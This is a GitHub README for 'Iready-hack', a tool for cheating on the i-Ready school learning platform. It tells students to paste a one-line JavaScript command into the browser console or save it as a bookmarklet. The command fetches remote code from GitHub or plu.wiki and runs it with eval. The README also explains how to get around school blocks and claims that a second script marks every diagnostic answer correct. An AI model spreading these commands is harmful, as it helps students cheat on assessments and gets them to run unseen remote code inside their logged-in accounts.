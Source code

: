 # Iready-hack
<bold><h1>How to setup:</bold></h2>
Copy the code below and login to i-Ready.

Do Ctrl + Shift + J to open the console and paste the code in there, hit Enter to run it.

If your school blocks the console then make a new bookmark and in the URL section paste the code there. Click the bookmark anytime to run the code.

    javascript:fetch('https://raw.githubusercontent.com/sysplu/Nullify/main/src/main.js').then(r => r.text()).then(r => eval(r))

If your school blocks github, use:

     javascript:fetch('https://plu.wiki/files/bookmarklet.js').then(r => r.text()).then(r => eval(r))

<bold><h1>How to hack Iready:</bold></h1>

https://www.youtube.com/watch?v=ou652X0cFzs

<bold><h1>How to make a bookmark:</bold></h1>

https://www.youtube.com/watch?v=XAMg8Qm3eEA&ab

# Diagnostic-hack (Example: Q: 3+1, A: 4, but you put 5 and you got it right.)
<bold><h1>How to setup:</bold></h2>

<bold>Example:</bold> 

(The Question is what's 3+1, The Answer is 4, but you put 5 and you got it right.)


Copy this link and paste it in a new tab:
   
        https://github.com/BD1Studios/Iready-hack/blob/main/Diagnostic%20hack
        
Copy and paste the code in your console on Iready, Then every question you click, its right, Paste the code again to stop getting wrong answers correct. You can open up the console by using: Ctrl  Shift  J. You can close the console by using the same method to open up the console.

<h1>P.S. 
BD1Studios</h1>
Subscribe on my YT: https://bit.ly/BD1Studios
